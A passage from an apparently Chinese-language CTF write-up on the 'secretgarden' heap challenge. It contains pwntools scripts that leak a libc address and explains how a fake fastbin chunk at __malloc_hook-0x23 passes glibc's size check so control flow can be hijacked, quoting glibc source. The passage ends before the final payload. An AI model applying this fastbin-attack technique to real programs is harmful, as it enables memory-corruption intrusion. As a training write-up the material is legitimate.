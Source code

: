 ```python
rm(0);rm(1)
add(500,"","4")
show();io.recvuntil("flower[3] :")
libc_addr = uu64(io.recv(6))-0x3c3b0a
leak("libc",libc_addr)
leak("gdb_libc",gdb_libc_base)
#debug(0x107b,"x /200bx "+hex(gdb_libc_base+libc.symbols['__free_hook']-0x50))
debug(0x107b,"x /200bx "+hex(gdb_libc_base+libc.symbols['__malloc_hook']-0x50))
show()
io.interactive()
```

发现__free_hook指针附近全是0，没有可以利用的，而在__malloc_hook附近发现：

![image](https://xuanxuanblingbling.github.io/assets/pic/garden/fakechunk.png)

故0x7f经过如下运算是会得到fastbin的索引为5，可以通过判断

```c
# define PREV_INUSE 0x1
# define IS_MMAPPED 0x2
# define NON_MAIN_ARENA 0x4
# define SIZE_BITS (PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
# define chunksize_nomask(p) ((p)->mchunk_size)
# define chunksize(p) (chunksize_nomask(p) & ~(SIZE_BITS))
# define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
  {
    errstr = "malloc(): memory corruption (fast)";
  errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim));
    return NULL;
}
```

所以构造的fake chunk就是位于__malloc_hook-0x23处，fastbin索引为5的size为0x70，数据区最多存放0x68即104字节，故尝试劫持控制流：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

```